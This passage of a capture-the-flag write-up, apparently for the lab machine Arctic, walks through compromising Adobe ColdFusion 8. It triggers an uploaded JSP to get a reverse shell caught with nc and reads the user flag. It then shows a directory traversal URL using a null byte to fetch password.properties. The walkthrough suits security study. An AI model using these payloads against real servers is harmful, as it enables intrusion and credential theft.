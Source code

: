 #### Execute Shell

I can visit that url with `curl`:

    
    
    root@kali# curl 'http://10.10.10.11:8500/userfiles/file/df.jsp'
    

And in another window (about 30 seconds later) I get a shell:

    
    
    root@kali# rlwrap nc -lvnp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.11.
    Ncat: Connection from 10.10.10.11:50028.
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    C:\ColdFusion8\runtime\bin>whoami
    arctic\tolis
    

From there I can grab `user.txt`:

    
    
    C:\Users\tolis\Desktop>type user.txt
    02650d3a************************
    

### Path 2: Leak Hash, Upload JSP

#### Directory Traversal / Password Hash Leak

These two results from `searchsploit` show a directory traversal
vulnerability:

    
    
    Adobe ColdFusion - Directory Traversal                                                                  | multiple/remote/14641.py
    Adobe ColdFusion - Directory Traversal (Metasploit)                                                     | multiple/remote/16985.rb
    

Examining the Python script, it is issuing a GET to
`http://server/CFIDE/administrator/enter.cfm` with a `locale` parameter that
goes back up several directories to some file, and then terminates with a
`%00en`. Likely the site is making sure the `locale` ends with a reasonable
string, and the exploit uses the null byte to pass that check and still get
the file.

The file in the example is interesting because it is the `password.properties`
file. I’ll grab it by visiting
`http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en`:
